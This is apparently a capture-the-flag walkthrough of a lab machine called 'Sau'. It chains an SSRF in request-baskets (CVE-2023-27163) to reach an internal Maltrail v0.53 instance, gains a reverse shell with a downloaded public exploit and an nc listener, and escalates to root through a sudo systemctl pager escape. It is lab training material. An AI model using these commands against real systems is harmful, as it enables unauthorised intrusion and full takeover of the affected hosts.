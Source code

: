 # Sau

Nmap scan

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

# Site scan

Let's check out the site on port 55555

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

We see it is running request-baskets version 1.2.1 after googling it is vulnerable to CVE-2023-27163

# CVE-2023-27163

1. First we get the exploit "wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh"
2. Next we set up nc on port 8000
3. Then run the exploit
4. WE ARE IN!!!
5. Well not rlly all we got is the webserver to request our server no reverse shell...&#x20;

Leason learned don't get tunnel vision and enumerate properly before trying to exploit.

# Deeper enumeration

I ran a gobuster scan on dns and dir mode but found nothin interesting. On the main page there is a login that asks for a master API key I tried interspting my own auth header and using that to no  avail.

What I then rembered was that port 80 was filtered so wouldn't it be great if we could get our basket to request that port locally. So i set my basket to forward to http://127.0.0.1:80 and voilla.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A sidenot I remeber watching an Ippsec video where he said using 127.0.0.1 is better than using localhost as localhost ca run into IPV6 problems.

We find it's running maltrail v0.53

# Exploit

To get RCE we do the following steps

1. curl -o exploit.py [https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py)
2. nc -lvnp 9000
3. python3 exploit.py <>MY\_IP> \<PORT> http://\<IP:PORT>/\<BASKET>
4. And we get the user flag!!

# Priv esc

Running sudo -l we see we can run: /usr/bin/systemctl status trail.service

This [link ](https://gtfobins.github.io/gtfobins/systemctl/)shows use some exloits. Let try the third one as its shortest.

Running the command we found with sudo -l and then !/bin/bash as outlined in GTFOBins.

WE GET ROOT!!

PAWNEDD
